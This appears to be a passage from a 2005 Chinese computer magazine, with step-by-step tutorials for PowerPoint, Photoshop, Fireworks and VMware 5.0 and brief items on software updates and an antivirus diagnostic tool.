第三步：如果觉得有必要展示一下自己所获得过的证书，可以为文字“教育背景和所获证书”做一个超链接，链接到“证书”幻灯片上去。

1.  单击“文件→新建”，在右侧新建演示文稿窗格中单击“通用模板”，在“演示文稿”选项卡中双击“证书”模板新建一个证书演示文稿。从左侧的浏览窗格中可以看到，这个演示文稿中包含两张幻灯片，点击选中某一张幻灯片即可在右侧窗口中显示出具体内容来。如果你有多个证书，可选中一个已有的幻灯片并按 Ctrl + C 键复制，然后连续按 Ctrl + V 键可粘贴出几个新的幻灯片；如果只有一个证书，可选中其他的幻灯片，再按 Delete 键删除即可；幻灯片上的文字都是可以修改的，点击文字即可进行相应的编辑修改操作了。将新建演示文稿保存为“证书.ppt”，然后关闭它返回到简历演示文稿中。
2.  就像在 Word 中操作一样，选中幻灯片中的“教育背景和所获证书”，然后单击菜单命令“插入→超链接”(快捷键为 Ctrl + K)，在打开的编辑超链接对话框中选中刚才制作的“证书.ppt”，确定即可。
3.  按 F5 键运行简历演示文稿，将光标移到“教育背景和所获证书”文字上时将变成手的形状，此时单击，即可跳转到证书演示文稿上了。

第四步：幻灯片的左下角有一个公司的 LOGO，它实际上就是一个图片，点选它之后按 Delete 键删除它，然后单击菜单命令“插入→图片→来自文件”插入自己的图片。按 F5 键试运行一下，效果如图 2 所示。

第五步：如果每次打开幻灯文件后再按F5键运行有些麻烦，因此建议点击“文件→另存为”，在“保存类型”中选择“PowerPoint放映(*.pps)”，这样文件就会被保存为以PPS为扩展名的文件，双击后直接全屏放映。

## 实例2：一分钟打造超酷数码相册

第一步：启动PowerPoint进入它的主界面，单击菜单命令“文件→新建”，然后在右侧的新建演示文稿窗格中，单击“相册”打开相册向导。

### 小提示

相册向导是PowerPoint 2003新增的功能，不过使用旧版本PowerPoint的读者，最好也浏览一下本例，这里可以学到一些基本概念、修改技巧、幻灯片放映技巧等，这些是各版本PowerPoint都通用的。

第二步：如果想直接把数码相机中的照片制作成相册，可先将数码相机与电脑接好，然后单击“扫描仪/照相机”按钮。这里以已保存在硬盘上的数码照片为例，所以只要单击“文件/磁盘”按钮即可。在打开的插入图片对话框中选中需要制作成相册的图片后(配合Ctrl和Shift键可多选图片，按Ctrl + A键可选中当前目录下的所有图片)，单击“插入”按钮。



如图3所示，在相册向导中可以对导入的照片进行简单的编辑，如调整先后次序，调整亮度、对比度，旋转图片等。单击“图片版式”右侧的下拉按钮，可以为相册选择一种样式，如一页幻灯片上放置几张图片，图片上面是否加上标题等，本例选择的是“1张图片(带标题)”项。

第三步：设置好各项参数后，单击“创建”按钮返回PowerPoint主界面。如图4所示，PowerPoint自动创建好一张演示文稿，并为每张照片都建立了一张幻灯片。其中第一张幻灯片是PowerPoint自动加上了一个简单封面，下面让我们来美化一下它。



- 1. 首先用鼠标选中“相册”两字，按删除键删除它，然后输入自己想要的相册名称，如：“武夷山游记”。可以像在Word中一样设置文字的大小、字体、颜色等，拖动文本的边框还可以调整文本的位置。同样方法，可以将下面的“由MC SYSTEM创建”也改成其他文字，如：“由北京一页创建”。
- 2. 白底有点太难看，下面为它加上图片背景。单击菜单命令“格式→背景”(或在幻灯片空白处单击鼠标右键，再选择“背景”项)调出背景设置对话框；单击下方的填充下拉按钮，从下拉列表中选择“填充效果”打开一个对话框，单击其上的“图片”选项卡，再单击“选择图片”按钮插入一个背景图片；连续单击“确定”、“应用”按钮返回主界面，背景即可替换成了漂亮的图片了(见图5)。





第四步：修改好第一张幻灯片之后，可继续点击其他幻灯片，你会发现每张照片上面都有“单击此处添加标题”字样(因为前面我们选的是1张图片带标题项)，这就是所谓的占位符了，点击它之后，占位符中的提示文字会自动消失，此时随意输入照片的标题即可。

### 小提示

### 什么是占位符？

顾名思义，占位符就是先占住一个固定的位置，等着你再往里面添加内容的。它在幻灯片上表现为一个虚框，虚框内部往往有“单击此处添加标题”之类的提示语，一旦鼠标点击之后，提示语会自动消失。当我们要创建自己的模板时，占位符就显得非常重要，它能起到规划幻灯片结构的作用。

第五步：一一添加照片的标题后（也可以不加），单击菜单命令“文件→保存”将幻灯片保存为“武夷山游记.ppt”。

按F5键（或执行“视图→幻灯片放映”）即可开始放映自己制作的数码相册了，每单击一次鼠标，就会自动切换到下一张幻灯片，一直到结束为止。

当然，这个数码相册还有许多需要改进的地方，如：可以加上美妙的背景音乐，照片切换的时候可以加上动画效果以及声音效果等，敬请继续阅读下面的实例。

### 小提示

### 幻灯片放映技巧

- ★在幻灯片放映过程中，如果要中止放映，请按下Esc键。
- ★如果想暂时隐藏幻灯片内容，可按下“B”或“.”键使屏幕全黑，也可以按“W”或“,”键使屏幕全变白，按Esc退出全黑或全白状态。
- ★放映幻灯片时，其右下角会有四个透明的按钮，单击其中左、右方向的箭头按钮可查看下一张幻灯片或返回前面的幻灯片；单击其中的铅笔图标(快捷键为Ctrl + P)，还可以像在黑板上一样在当前放映的幻灯片上写写画画(见图6)，即所谓的幻灯片“注释”。退出幻灯演示时，PowerPoint会提示是否保留这些注释。



## 实例3：多媒体课件——李白诗画

只有激发起学生的学习兴趣，才能有理想的学习成绩，想做一个合格的老师不会做幻灯片，那怎么行！下面来尝试制作一个李白诗歌欣赏的课件，请事先准备好合适的素材。

第一步：运行PowerPoint，在新建演示文稿窗格中单击“空演示文稿”，然后在“幻灯片版式”中单击选择完全空白的那个版式。执行“格式→背景”菜单命令，在对话框中单击下面的下拉按钮并选择“填充效果”，然后单击“图片”标签，再点击“选择图片”按钮找到合适的背景图片，确定后应用到当前幻灯片。这样，我们的幻灯片就拥有一幅漂亮的背景了(见图7)。

第二步：执行“插入→图片→艺术字”，双击选择合适的艺术字样式，接下来输入“伟大的浪漫主义诗人李白”后确定。拖动出现在幻灯片上的艺术字可以调整它的位置，拖动艺术字四周的节点可以调整字体的大小。调整好艺术字之后，右击它并选择“自定义动画”命令项，然后在自定义动画任务窗格中点击“添加效果→进入→飞入”，如图8所示，设置动画的各种参数，最好把“开始”项设置为“之后”，而不是默认的“单击”，这样在播放幻灯片的时候，文字会自动“飞”出来，而无需单击鼠标。



第三步：执行菜单命令“插入→新幻灯片”(快捷键为Ctrl + M)插入第二张幻灯片，幻灯片版式依然选择空白版式，并将如图9所示的图片设置为背景。当然，有兴趣的读者完全可以在Photoshop之类的图像处理软件中设计自己的背景图片。



按钮，然后点选合适的幻灯片（本例中，“将进酒”对应的是“幻灯片2”），确定后即完成超链接设置。为了在播放时我们能即时知晓此链接的目标幻灯片地址，还可点击右上角的“屏幕提示”按钮，为它加上提示。以此类推，完成其他超链接的设置（见图11）。



第五步：按Ctrl键不放，依次点击已设置好超链接的诗歌标题，全选它们后，按Ctrl + C键复制，接着依次点击其他幻灯片，按Ctrl + V键粘贴，很快就能为其他幻灯片加上具有超链接属性的按钮标题了。



好了，按下F5键或执行“幻灯片放映→观看放映”来欣赏一下自己的作品吧。

- ★如果担心播放幻灯片时，小喇叭图标影响显示效果，可将其拖放到幻灯片显示范围之外。当需要在其他电脑上播放此幻灯片时，最好将PowerPoint做打包处理，或将声音文件一并复制到新电脑上，并设置好合适路径（在上图对话框“声音设置”标签中的“文件信息”里设置）。
- ★PowerPoint不但可以为幻灯片中的文字或图片定义动画，甚至不同幻灯片之间的切换也可以有动画效果，执行“幻灯片放映→幻灯片切换”命令，在任务窗格中选择合适的切换方式，然后“应用于所有幻灯片”即可，当然你也可一一指定切换方式。

## 不用CAD，Photoshop也能求面积

大家知道，Photoshop主攻图像处理，CAD主攻绘图设计计算，一个是位图软件，一个是矢量图软件。涉及图形面积计算，当然用CAD。常用做法是将扫描图或制作的位图矢量化，在CAD中全部重新绘制，勾出面域边界后再调用命令求算面积。那么，能否直接在Photoshop中计算图形面积呢？看似不可能，其实利用Photoshop的“选区”和“直方图”功能，就可以精确地计算出图形面积。下面以求图1中B区的面积为例进行说明。


第一步：首先需选取B区。选择魔棒工具，为了保证精确选择B区，可将“容差”值设为0，并取消“消除锯齿”项的选择。 第二步：在B区点击一下鼠标全选它之后，再执行“图像→直方图”调出直方图窗口，如图2所示，可见像素值为10223，即Xb=10223。注意：如果你使用的是Photoshop CS版本，则执行“窗口→直方图”命令，打开直方图窗口后，要单击窗口右上角的小三角按钮，从弹出菜单中先选择“展开视图”，再选择“显示统计”项。 第三步：执行“图像→图像大小”命令，如图3所示，可见图像全部像素为长乘宽即227×283=64241像素，即X=64241；图像面积为8×10cm²，即S=80cm²。显然，B区面积Sb/Xb=S/X，Sb=S·Xb/X=80×10223/64241=12.73cm²。 第四步：可用Excel建立一个计算表来辅助计算，这样可免去手动计算的麻烦（该Excel表格可到http://www.newhua.com/cfan/200510/pAc.xls处下载）。





## FlyakiteOSX 2.0 SE专为中文造

大家一定还记得本刊在2005年第3期《资源和美丽我全要 XP完美克隆Mac OS》介绍过的FlyakiteOSX 1.0，这篇文章受到了不少读者的欢迎，现在其最新版本FlyakiteOSX 2.0已经推出。下载地址：http://dl.pconline.com.cn/html/1/6/dlid=13476&dltype=1&pn=0&.html。在安装时需要注意，如系统为简体中文，需下载特别版，其他语言的系统安装普通版即可。 新版本最大的特色就是专为中文系统用户设计了特别版，解决了上一版本中无法使用“计算器”的问题。同时，老版本中无法进行系统更新的问题也得以解决。 当然，新版本还遗留了一些老问题，比如菜单中字号变小的问题依旧存在，所以还需要使用安装字体补丁（下载地址：http://www.newhua.com/cfan/200510/ztxd.exe）。在安装前，需要先切换回Windows XP的默认主题，然后再进行安装即可。 （LOLI）



## 实例4：录制旁白，让电脑替你说话

是不是有这样的感慨，同一幻灯片需要在不同地点多次演示，而自己就像一个机器一样不断重复同样的话。其实完全可以让PowerPoint自动演示图片并解说，这样就可以坐到一边喝茶而让电脑替你演讲了。录制解说词，在PowerPoint中被称为“录制旁白”。 第一步：保证自己计算机上的声卡工作正常，并且具备麦克风等能够录音的设备。然后打开你的PowerPoint演示文稿，执行“幻灯片放映→录制旁白”命令，打开“录制旁白”对话框。 第二步：选中“链接旁白”选项，并通过“浏览”按钮设置好旁白文件的保存文件夹。同时根据需要设置好其他选项。 第三步：单击“确定”按钮，进入幻灯片放映状态，一边播放演示文稿，一边对着麦克风朗读旁白。注意：声音旁白优先于所有其他的声音，所以如果运行了包含旁白和其他声音的幻灯片放映，只有旁白会被播放。

### 网络大补贴

- 1. 打包CD，让PowerPoint到处运行
http://office.microsoft.com/zh-cn/assistance/HA011552792052.aspx
用好PowerPoint的“打包成CD”就可让你一次打包，到处运行。快来看看微软的官方教程吧，非常简单。
- 2. 来看看PowerPoint教学大本营
http://www.yesky.com/SoftChannel/72348981799157760/20031022/1738173.shtml#
http://www.enet.com.cn/eschool/inforcenter/A20040608314918_1.html
- 3. 许多人喜欢用PowerPoint来做贺卡或是讲一些有趣的哲理故事，建议你看看http://www.cycnet.com/englishcorner/special/powerpoint/，这里收藏了不少，建议你也学一学，将某个笑话或是寓言故事做成PPT。
- 4. PowerPoint模板很重要，这些资源送给你
http://office.microsoft.com/zh-cn/templates/CT011323752052.aspx(微软官方网站的模板)
http://www.avpartner.com/ppttemps-main.htm(相当丰富的模板资源)
http://images.graphicsland.com/ppt/ppttempl.zip(36个模板下载)
http://www.animationfactory.com/templates/(提供300个以上模板)
- 5. 亲爱的老师，为您献上这些课件
http://www.wsbedu.com/kejian/kejianzx.html
http://www.cn-cai.com/
（河北 闫艳力 北京 一页）

## 动态QQ表情DIY Fireworks轻松搞定

QQ体贴的动态表情恰恰可以弥补语言的苍白，将某种情绪生动而有趣地展现出来。但QQ本身自带的聊天表情非常有限，于是许多朋友便通过上网浏览或从各个论坛、软件中下载各种各样的QQ表情来补充QQ表情库。不过你是否想过，其实自己也可以DIY动态QQ表情，让它能更贴近想要表达的情感（见图1、图2）。





动态QQ表情，本质上就是一些GIF动画，其实制作GIF动画只是Fireworks很小的一个功能，更多其他应用，大家可以在使用软件过程中细细体会。

### 小知识

GIF动画实际上就是由一张一张的静态图片组成的，在很短的时间内连续不断地显示，由于人眼有0.1秒的视觉暂留，所以快速连续显示的图片看上去就像是动了起来。每一张图片就叫作“帧”，它是组成动画的基本单位。

本例中要制作出一个不断睁眼闭眼的小笑脸，口中喊着“哈”、“嘿”（当然你可以定制成更有趣的对白，如：“嘿！小样的，敢和我斗！”），并不断打拳的QQ动态表情，效果如图3所示。



### 脸庞的制作

第一步：启动Fireworks MX 2004中文版（以下简称Fireworks），单击菜单命令“文件→新建”，在新建文档对话框中将画布宽度和高度都设置为128像素（为了便于传输，一般控制在150像素×150像素之内），分辨率为72像素/英寸；画布的颜色选择为“透明”（见图4），确定即可。接着，为了绘图方便，可以在左侧工具箱中点选下方“视图”栏中的“放大镜”工具，在画布上点击可放大视图进行操作（按Alt键不放并点击可缩小视图，放大或缩小的快捷键为Ctrl + + 或 Ctrl + -）。



第二步：按住工具箱“矢量”栏中的“矩形”工具不放，在弹出的子工具箱中选择“椭圆”工具，然后按住Shift键不放，在画布中央拖画出一个正圆形，我们要用这个正圆形作为脸庞。刚刚画好的正圆形自动处于选中状态（如果圆形未被选中，可使用工具箱“选择”栏中的黑箭头“指针”工具点选圆形），此时单击展开其下方的属性面板。

现在将给笑脸（即圆形）填充上好看的颜色：在属性面板中，首先单击填充色按钮右侧的下拉箭头，从弹出菜单中选择“渐变→椭圆形”；再单击填充色按钮，在弹出的编辑渐变窗口中，分别单击渐变条下方的两个铅笔头图标，从弹出色盘中点选一种颜色（或直接在上方的文本框中输入色彩值然后按回车键确定），设置颜色渐变值为从#FFFFFF到#FFF00（由白到黄）；接着单击下面“边缘”右侧的下拉箭头，从下拉列表中选择“羽化”，并设置它的参数值为2；然后再设置笔触的颜色为#00FF00，2个像素的柔化描边（见图5）。将颜色填充好后，拖动正圆形中出现的坐标圆点可以移动渐变的中心点，拖动X和Y轴两端的节点可以改变渐变区域的方向和长度，可根据具体情况适当调整。



第三步：接下来再为这个笑脸添加上特效。在属性面板中单击“效果”旁边的“+”号按钮，从弹出菜单中选择“斜角和浮雕→内斜角”特效，设置其参数值为：斜角边缘形状为平滑；宽度为12；对比度为31%；柔化度为8；角度为116。这样，一个具有立体感的脸庞部分就设计完毕了。

### 眼睛、嘴和小拳头的制作

第一步：点选工具箱“矢量”栏中的“钢笔”工具，然后单击下方“颜色”栏中笔触（即铅笔图标）右侧的颜色按钮，从弹出色盘中点选黑色，接着点选填充色按钮（即喷桶图标），并单击其下方的红色斜杠按钮，将填充色设置为“无”。

设置好钢笔工具后，在笑脸左上角部分画出一小段线，并在“钢笔”工具被选中的状态下单击这条线段，在这条线段上多绘制几个曲线点，接着单击工具箱“选择”栏中的白箭头工具（即“部分选定”工具），拖动调整线段上的各个曲线点，使这条线变成弧形（见图6）。



接下来单击工具箱“矢量”栏中的“直线”工具，在属性面板中将笔触的宽度设置为1，再在弧形线段上面绘制出几条竖线作为眼睫毛，一个眯缝着的眼睛就绘制好了。点选黑箭头“指针”工具，然后按住Shift不放并一点点选上面所画的线段，将眼睛部分全部选中（注意不要选中脸庞部分），按Ctrl + C键复制，再按Ctrl + V键粘贴，将复制的眼睛拖放到脸庞右侧适当的位置，在画布空白处点击一下以去掉对眼睛的选择状态，效果将如图7所示。



第二步：按住工具箱中的“矩形”工具不放，在弹出的子工具箱中选择“椭圆”工具，接着在工具箱下方“颜色”栏中点选笔触按钮（即铅笔图标），并单击其下的红斜杠按钮将笔触关闭。单击填充色按钮（即喷桶图标）右侧的颜色按钮，设置填充颜色为红色，在属性面板中，单击填充色图标下方的“边缘”右侧的下拉箭头，从下拉列表中选择“羽化”，并将羽化值设置为6。设置好后，在眼睛下面画出两个扁扁的椭圆形作为红脸蛋。

第三步：嘴的勾划与眼睛的绘制方法类似，选择“钢笔”工具，设置笔触的颜色为红色，笔尖宽度为1，接着在脸庞的合适位置上绘制出一条线段，并添加上多个曲线点，然后利用“部分选定”工具调整线段上的这些曲线点，达到自己满意的效果为止。

### 小提示

插入和删除路径线段上的曲线节点
为了方便地调整线段，我们通常都会在线段上插入曲线节点，直接用“钢笔”工具在画好的线段上空白处点击即可增加节点，如果是点击在已有的节点上，则删除它。

第四步：下面再为这个笑脸人物绘制出两个小拳头。单击“椭圆”工具在画布上绘制出一个椭圆形，然后利用“钢笔”工具在这个椭圆形上面添加几个曲线点，接着使用“部分选定”工具调整这个椭圆形的右上部的形状向内稍微凹陷一些，接着再绘制一个小一点的椭圆形，右击这个小椭圆形，在弹出的快捷菜单中选择“排列→下移一层”，然后将它们的位置排列好，并单击菜单栏中的“修改→组合”，将它们组合到一起。接着单击菜单命令“修改→变形→倾斜”，将这个小拳头倾斜一定的角度，并放置到笑脸的脸旁。

为增加立体感，可以为小拳头添加上阴影效果。用黑箭头“指针”工具选中小拳头图形，然后在属性面板中单击“效果”右侧的“+”号按钮，选择“阴影和光晕→内侧阴影”，设置内侧阴影的参数值如下：距离为3；颜色为黑色；不透明度为65%；柔化度为4；角度为111（大家也可以根据自己设计的具体情况自行设置内侧阴影参数值）。



最后点选制作好的小拳头图形，复制并粘贴出一个，确保粘贴出来的新图形为选中状态，执行“修改→变形→水平翻转”菜单命令，再把它拖放到笑脸的右侧，最后效果如图8所示。

### 其他动画帧的设计

前面说过，动态图形是由多幅静态图片组成的，前面已经制作好了第一帧图片，接下来还需要制作其他三帧图片。

第一步：选中第一帧画布中所有对象（用“指针”工具拖出一个矩形框住所有对象即可），按Ctrl + C组合键复制到剪贴板上，然后单击菜单命令“窗口→帧”在右侧展开帧面板，单击帧面板下方的“新建/重制帧”按钮（即右下角带“+”号的那个按钮）添加一个新的帧，按Ctrl + V键将刚才复制的图像粘贴到第二帧的画布上面。

第二步：在这一帧上要让眯缝着的双眼“睁开”。单击“椭圆”工具，在画布上绘制出一个椭圆形，并设置它的填充色为黑色，边缘为实边，并将笔触关闭掉，然后利用“部分选定”工具，将这个椭圆形调整成半月的形状，并使用“直线”工具为眼睛添加上几根眼睫毛。接着还是利用“椭圆”工具为黑眼珠添加上几个小点，设置它的填充色为白色，边缘为实边，这样，眼睛看起来才有神。制作完毕后将它们组合到一起，并复制粘贴出一份。然后将原来的映画的眼睛删除掉，在原来的位置上放置上新绘制的眼睛(见图9)。这时我们可以单击布下方的播放按钮(白色三角形按钮)，播放并预览这两帧的动画，看看眼睛是不是动起来了！



第三步：大家可以参照图3所示的效果制作完成后两帧的图片，这里就不详细说了。不过有两点要提示一下大家：1.添加文字，可以使用工具箱“矢量”栏中的“文本”工具（即“A”图标）；2.拳头图形不用重新绘制，点选粘贴过来的拳头图形，再在属性面板中改变“宽”和“高”的数值，即可任意修改拳头的大小比例了。

## 输出动画

第一步：首先设置输出参数。在帧面板中双击每一帧后面的数字，可以重新设置每一帧的延时长度，本例设置为30/100秒。如果希望帧延时更长一些，比如2秒，则应该设置为200/100秒。可以按Shift键不放，再依次点选多个帧，然后双击后面数字，可同时设置所有选中帧的帧延时数值。

第二步：选中所有帧，执行“文件→导出预览”命令打开导出预览对话框。在“选项”标签面板中，设置格式为“GIF动画”，调色板为“精确”，然后单击“导出”按钮，设置好文件名称，存储的位置等参数，即可将设计的这个动画输出了。导出预览窗口还有其他许多选项，大家可以多做些实验。

小提示 在导出预览的导出对话框中，单击“文件类型”下拉列表，大家可以发现还有“Flash SWF”项，选择这一项即可导出为Flash动画了。动画做好了，赶快把它加到QQ自定义表情中，第一时间发给QQ上的MM欣赏一下吧。通过上面的学习，相信大家已经掌握了QQ动态表情的制作以及动画输出方法了。其实除自己手工设计外，还可以巧妙借用别人素材创建自己的动态表情，比如利用一些媒体播放软件（超级解霸等）截取自己喜爱的影片片段并保存为一张张连续的图片，然后再利用Fireworks制作并输出成为小电影形式的QQ动态表情，也非常的酷。让我们展开想象的翅膀吧，设计出个性化的QQ动态表情！

（吉林 图们月长圆）

## 破“屏”而出——Photoshop广告制作实战

平面或影视广告中经常能看到这样的场景：电视画面中的人物突然破“屏”而出，跨到（或冲到）显示屏幕的外面来，立体效果非常强烈。今天，就让我们在Photoshop中模拟出这种效果，最终作品如图1所示。本文所涉及到的素材图片，可到http://www.newhua.com/cfan/200510/PhotoAd.rar处下载。





改变（秘技3：按Ctrl + T键进入“自由变换”状态，然后按住Ctrl键不放并用鼠标分别拖动节点，可达到与“扭曲”变形一样的效果）。

第四步：在Photoshop空白处双击鼠标，打开一个超人图片（见图4）。这张图片的背景比较单一，所以使用魔棒工具就能将人物选取出来。


单击选中工具箱中的魔棒工具（或按快捷键W），然后在上方的魔棒选项栏中，将“容差”值设置为64。接着在背景中单击，即可将纯色部分都选中了。不过其他色彩反差大一些的颜色还是没有选中，这时就可以用到下面这个秘技了。秘技4：按住Shift键不放，这时魔棒工具图标的下方会显示一个“+”号，表示在保留前面选区的基础上再把后面操作所得到的选区融合到原有的选区中。如果不按Shift键，则每次进行选取操作时，前面的选区都会丢失。按住Shift键不放，连续在其他色彩区域点击，直到将超人周边的背景都选上为止。如果多选了，可改按Alt键不放，这时光标下方会显示出“-”号，此时再圈选，可将多选的部分减去。巧妙使用Shift和Alt键，即可对原有选区进行编辑了。

上面的秘技同样适用于其他的选取工具，比如超人图片右侧的高楼，如果也用魔棒工具来选取的话，就非常麻烦，这时可选取矩形选框工具（快捷键为M），然后按住Shift键不放并框选右侧的高楼，即可将它也加到原有的选区中。总而言之，就是想办法将除人物之外的所有背景都选取出来。

魔棒工具选项栏上有一个“容差”项，当我们用魔棒在图片的某个地方点击时，Photoshop便会以被点击处的颜色为基准快速计算起来，周围凡是与被点击处颜色的差别在容差值的范围之内的，就把它纳入到选区中，否则排除出去。以此原则扩展，直到把周边所有的相似颜色都选取出来为止（秘技5：魔棒的容差值越大，选取的范围也就越大，不过误差也会增大；容差值越小，选取的范围也就变小，不过就更精确一些了。容差值的大小，应该根据图像的具体情况来设置，可以设置不同的大小多试几次）。

第五步：上一步选出了图片中的背景，而我们实际上想要的是人物，所以执行“选择→反选”菜单命令（快捷键为Ctrl + Shift + I）即可反选上人物了。按V键切换到移动工具，然后用移动工具将选取出来的人物直接拖放到前面打开的显示器图片窗口内，它会自动建立一个新的图层（见图5）。



第六步：调整好位置后，为了让人物有从显示屏中跳出来的感觉，可将其后脚部分隐藏到显示屏中。如图6所示，切换到背景层（即显示器图层上），点选多边形套索工具沿着显示器的边框将超人的后脚圈选出来，按Ctrl + C组合键复制（注意：此时是在显示器图层上操作，所以复制的实际上是显示器的边框），再按Ctrl + V组合键粘贴，复制的部分将自动创建一个新图层，将新图层拖到最顶部，就可以看到超人超出显示屏之外的后脚被隐藏起来了（秘技6：画出选区之后，直接按Ctrl + J键拷贝选区到新的图层，可代替上面Ctrl + C 和 Ctrl + V 这两步的操作）。

第七步:本例还可以做很多后期的修饰，比如让蓝天白云中的部分白云也“溢”出显示屏以增加立体感，选中超人图片加上“风”滤镜效果产生动感，在最底层新建一图层并导入风景图片作为背景等，还可以为作品加上各种文字特效。在Photoshop中，只有你想不到的，没有你做不到的。

Just Do It
破“墙”而出
如图所示，是本刊2005年第4期十二上的一个广告图片:超人一拳击破铁皮墙的禁锢飞了出来，透过打破的墙洞，可以看到一片广阔的云天，墙洞的周边呈现出被重力击破后特有的撕边现象，非常真实。完全可以借鉴本文的方法制作这个图片效果，它基本上由三个图层组成:蓝天白云的背景是一层，超人图片是一层，墙洞是一层。这个制作的难度主要是铁皮撕边效果，需要用到轮廓绘制、多色渐变、手工涂抹、图层特效等多种操作。

(安徽 无名)

### 何时用得“美人”归
——Photoshop CS2 先睹为快

今年3月，Adobe公司曾放出风来，要在5月发布最新版Photoshop CS2。实际上，4月22日就已经有人获得了完全包装的Photoshop CS2产品，有关它的评测文章也充斥了各类设计网站。大致说来，Photoshop CS2有以下一些新功能：

- 革命性的消失点工具(Vanishing Point):它可以在很短时间内实现令人惊奇的效果。可以匹配图像区域的角度自动进行克隆、喷绘、粘贴元素等操作(见图1)。
- 多层操作(Multiple layer control):拖拖拽拽就可以选择、移动、建组、变形或扭曲多个层中的对象。



- 智能对象(Smart Objects):使用智能对象可以对光栅图和矢量图进行非破坏性的缩放、旋转和扭曲等操作，还可以保存Adobe Illustrator中的矢量数据。
- 数码相机RAW格式多图像处理:使用模拟多图像进程来加速RAW格式文件的工作流。按照选择的格式导入图像，包括Digital Negative(DNG)格式。可以自动调整图像的曝光度、阴影、明亮值和对比度。
- 图像扭曲(Image Warp):可以非常方便地将图像“贴”到立体图形上，效果非常棒(见图2)。



Photoshop CS2中文版可能还得等待一段时间，更多新功能的介绍与演示，大家可先浏览Adobe的Photoshop CS2介绍网页，先睹为快:http://www.adobe.com/products/photoshop/newfeatures.html。我们在以后也会陆续为大家介绍一些Photoshop CS2的精彩实例，敬请关注。

(阿飞)



### 关于《挑战极限！制作220分钟的VCD光盘》补遗

本刊2005年第8期一文介绍了《挑战极限！制作220分钟的VCD光盘》，在文章中介绍了一张VCD上刻录220分钟的内容。很多读者在试用后发现无法使用，主要是在进行到第七步时，Nero并没有出现提示，这是因为大家所用的Nero版本问题。请使用最新的Nero 6.6.x.x进行刻录，只有使用该版本，才会出现提示重新编码的提示 (见图)。

(LJ)



### 免费给电脑装个安全听诊器

“瑞星听诊器3.3”虽然体积只有114KB (下载地址: http://it.rising.com.cn/service/technology/tool.htm)，但功能却非常强大，能够检测出系统中很多新的未知木马和病毒。

瑞星听诊器3.3版可以诊断出某些对IE设置进行篡改的病毒程序。如IE被打开后，总是连接恶意站点 http://www.1235678.com。可按如下方法设置:点击“瑞星听诊器”上的“诊断”按钮，会弹出对话框让你输入客服建议。如果你的电脑经常莫名其妙地弹出IE窗口，并打开不明网站(如 http://www.1235678.com)，则在这个对话框中把那个网址输入进去(见图)。

如果是扫描其他木马，这里不用输入信息，直接点击“确定”继续。随后，瑞星听诊器会检测出可疑文件，并会报告它们的可疑程度(概率)，你可以把检测出的可疑文件通过 http://up.rising.com.cn 上报给瑞星公司进行检测。

使用瑞星听诊器的“提取”功能，可以生成本机注册表启动项目、进程列表、Hosts文件等的详细信息日志，通常病毒和木马都会在这些地方留下蛛丝马迹。

点击“提取”按钮后会提示选择要保留该提取信息的路径，选择后请点击“确定”。系统会在所选路径下创建目录“瑞星用户信息”，并在该目录中生成“瑞星用户机器信息.htm”的文件。该文件就是你电脑的一些启动信息了，你可以把这个文件发送给瑞星的客户服务人员，也可以将扫描结果贴到瑞星的社区上(http://www.ikaka.com)，会有很多热心的网友和版主帮你解决病毒问题。

同时瑞星听诊器还具有IE修复功能，可以用于恢复被病毒修改的IE的设置。点击听诊器上的“IE重置”按钮将出现提示窗口，点击“是”即可对IE设置进行修复。

(瑞星工程师 史瑀)



### 体验全新虚拟技术VMware5.0

本刊2004年21期《巧用VMware电脑分身有术》一文已经为大家介绍了老版本的VMware Workstation，至截稿时最新版本的VMware Workstation 5.0版本号为Build 13124 (以下简称VMware 5.0)。该版本增加了很多大家期盼已久的新功能，下面笔者以此版本为大家进行讲解，主要介绍新增功能。

虚拟机还原点
一台虚拟机可以有多个Snapshot(还原点)，并且有强大的Snapshot管理功能，使用用户轻松设置和管理多个Snapshot(见图1)。

Snapshot的出现可以使一台虚拟机拥有不同状态，例如没有打补丁的Windows XP，打了SP1补丁的Windows XP和打了SP2补丁的Windows XP等等，并可随时快速切换到不同状态的虚拟机，就像我们自己的系统做了许多不同状态的Ghost镜像一样。该功能对于测试软件在不同版本Windows中的运行情况非常有用。

实例:为不同的Windows XP创建不同的Snapshot
第一步:先创建好虚拟机，安装好Windows XP的原版。
第二步:点击菜单中的“VM→Snapshot→Take Snapshot”，在“Name”中输入该还原点的名称，如“No SP”，“Description”中输入简单的说明。
第三步:在虚拟机上安装好Windows XP的SP1补丁，用第一步的方法创建一个名为“With SP1”的还原点，再安装好SP2补丁，创建一个名为“With SP2”的还原点。
第四步:当以后要进入没有安装补丁的Windows XP时，只要选择菜单中的“VM→Snapshot→Snapshot Manager”，双击“No SP”，这时VMware会提示恢复到选中的状态，同时丢失当前的数据，点“Yes”进行恢复。这样当前状态就从“With SP2”恢复到“No SP”的状态了。



图1 在Snapshot Manager(还原点管理器)窗口中可以看到每一分支

### 虚拟组

虚拟组特性可以使用户更方便地管理多台互相连接的虚拟机，并模拟与现实情况相近的多种网络连接配置。

当制作了两个或两个以上的虚拟机后，就可以将它们组成为虚拟组，简单的可以理解为虚拟网络，建立好虚拟组后，就可以在两台虚拟机中方便地创建交换数据，测试各类软件了。

此时再建立还原点，就会从 No SP 点引出另一分支，这样就可以建立多层次的状态。

### 实例: 将两个系统组成虚拟组

- 第一步: 选择菜单中的 “File → New → Team”，点击“下一步”，在 “Team name” 中输入组名称，在 “Location” 中输入虚拟组文件保存的路径，选择 “下一步”。
- 第二步: 这时会弹出 “Would you like to add virtual machines to the team now?”(是否现在加入虚拟机)，选择 “No, I will add Virtual Machine later”，点击“下一步”稍候添加。
- 第三步: 这时弹出 “Would you like to add LAN segments to the team now?”(现在是否配置网络)，选择 “No, I will add LAN segments later”，点击“完成”。
- 第四步: 回到 VMware 主界面，选择创建好的虚拟组，点击 “Team → Settings” 菜单项。在弹出窗口中点选 “Virtual Machines” 标签，然后点击 “Add” 按钮，选择 “Existing Virtual Machines”(已存在的虚拟机)，选择虚拟机的文件，完成添加。
- 第五步: 点击 “LAN Segments” 标签，可以设置不同的网络带宽，比如 Modem(56Kbps)、Cable(4Mbps)等等，这样可以模拟出不同网络环境下的情况(见图2)。
- 第六步: 点击 “Connections”(连接)标签，在这里可以配置虚拟机的网络连接情况，比如使用哪种带宽连入网络。
- 第七步: 点击窗口左侧的虚拟组，这时窗口右侧就会分成两个窗格，上面的窗格显示了当前虚拟机组中所有虚拟机，而下面显示了当前所选的虚拟机(见图3)。

